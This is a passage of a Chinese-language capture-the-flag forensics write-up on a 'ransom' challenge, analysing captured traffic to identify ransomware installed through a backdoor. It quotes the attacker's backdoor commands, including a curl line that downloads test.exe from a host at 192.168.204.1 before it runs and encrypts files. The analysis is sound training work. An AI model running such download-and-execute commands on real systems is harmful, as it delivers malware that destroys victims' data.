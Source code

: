 [![](assets/1702520939-5cadaf350f55e66619c5b99b2963e445.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213181047-e28888b0-999f-1.png)

## ransom

### ransom-1

> 题目内容：攻击者通过后门在受害机器上安装了勒索病毒，给出勒索病毒文件的sha256(大写)(注:该文件建议在虚拟机中打开)

过滤HTTP之后，通过后门进行命令执行。可以看到执行命令`dir`，返回结果如下  
[![](assets/1702520939-7966eac8a5f779f4e0c2e7ca7add24a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213181109-ef7fc146-999f-1.png)  
继续往下看，发现执行了一个curl命令`curl 192.168.204.1:8000/test.exe --output test.exe`。并且后续执行此exe，对某些文件进行了加密操作，因此这个`test.exe`就是勒索病毒。  